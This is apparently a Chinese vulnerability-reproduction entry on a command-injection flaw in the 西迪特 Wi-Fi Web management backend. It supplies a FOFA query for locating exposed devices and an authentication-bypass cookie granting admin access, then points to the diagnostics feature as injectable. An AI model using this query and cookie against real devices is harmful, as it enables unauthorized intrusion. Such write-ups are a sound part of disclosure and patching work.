 # 西迪特 Wi-Fi Web管理 jumpto.php 后台命令执行漏洞

## 漏洞描述

西迪特 Wi-Fi Web管理系统后台过滤不足导致远程命令执行漏洞

## 漏洞影响

```
西迪特 Wi-Fi Web管理
```

## FOFA

```
title=="Wi-Fi Web管理"
```

## 漏洞复现o

登录页面

![image-20220519183944313](./images/202205191841065.png)

通过越权漏洞获取权限，添加Cookie

```
Cookie: timestamp=0; cooLogin=1; cooUser=admin
```

进入后台后，诊断功能点存在命令拼接执行漏洞

![image-20220519184158173](./images/202205191841279.png)
